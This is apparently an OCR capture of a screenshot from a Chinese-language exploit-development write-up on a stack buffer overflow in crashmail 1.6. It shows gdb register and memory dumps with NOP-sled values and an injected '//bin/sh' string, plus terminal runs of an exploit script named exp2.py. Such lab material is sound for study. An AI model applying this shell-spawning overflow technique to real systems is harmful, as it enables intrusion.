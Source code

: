 可以观察到buf数组地址为0xffad1a24，此时和栈地址相关的寄存器除了esp还有esi，esi寄存器的值为0xffad1d50，相对buf数组在高位，esi指向的位置距离返回地址                                             

```bash
Breakpoint 1, 0x0804aa19 in LockConfig (                                              │sh: 1: .busy: not found
    file=0x80649cf <Filter_Execute+525> "P\350", <incomplete sequence \353>)          │test@0c3259477029:/test$ ls
    at crashmail/crashmail.c:505                                                      │bin                 crashmail-1.6         enter_container.sh  exp2.py
505     }                                                                             │container_start.sh  crashmail-1.6.tar.gz  exp1.py
0xffad1d50:     0x69622f2f      0x68732f6e      0x75622e23      0xff007973            │test@0c3259477029:/test$ ./exp2.py 
0xffad1d60:     0xf7f95000      0x00000000      0xffad1dc8      0x00000000            │Failed to create lock file 
0xffad1d70:     0xf7fdb000      0x00000000      0xf7f95000      0xf7f95000            │sh: 1: .busy: not found
0xffad1d80:     0x00000000      0x9667f81c      0x74c07e0c      0x00000000            │test@0c3259477029:/test$ ./exp2.py 
(gdb) info reg                                                                        │Failed to create lock file 
eax            0x0                 0                                                  │sh: 1: .busy: not found
ecx            0x0                 0                                                  │test@0c3259477029:/test$ ./exp2.py 
edx            0x807437a           134693754                                          │Failed to create lock file 
ebx            0x90909090          -1869574000                                        │sh: 1: .busy: not found
esp            0xffad1afc          0xffad1afc                                         │test@0c3259477029:/test$ ls | .busy
ebp            0x90909090          0x90909090                                         │-bash: .busy: command not found
esi            0xffad1d50          -5431984                                           │test@0c3259477029:/test$ ls       
edi            0x90909090          -1869574000                                        │bin                 crashmail-1.6         enter_container.sh  exp2.py
eip            0x804aa19           0x804aa19 <LockConfig+262>                         │container_start.sh  crashmail-1.6.tar.gz  exp1.py
eflags         0x282               [ SF IF ]                                          │test@0c3259477029:/test$ ls#.busy  
cs             0x23                35                                                 │-bash: ls#.busy: command not found
ss             0x2b                43                                                 │test@0c3259477029:/test$ ls #.busy
ds             0x2b                43                                                 │bin                 crashmail-1.6         enter_container.sh  exp2.py
es             0x2b                43                                                 │container_start.sh  crashmail-1.6.tar.gz  exp1.py
fs             0x0                 0                                                  │test@0c3259477029:/test$ ./exp2.py 
gs             0x63                99   
(gdb) p &buf                                                                          │l', '-x', '/tmp/pwnlib-gdbscript-rsi1he64.gdb']
$1 = (char (*)[200]) 0xffad1a24                                                       │[*] Paused (press any to continue)
(gdb)                                 
```
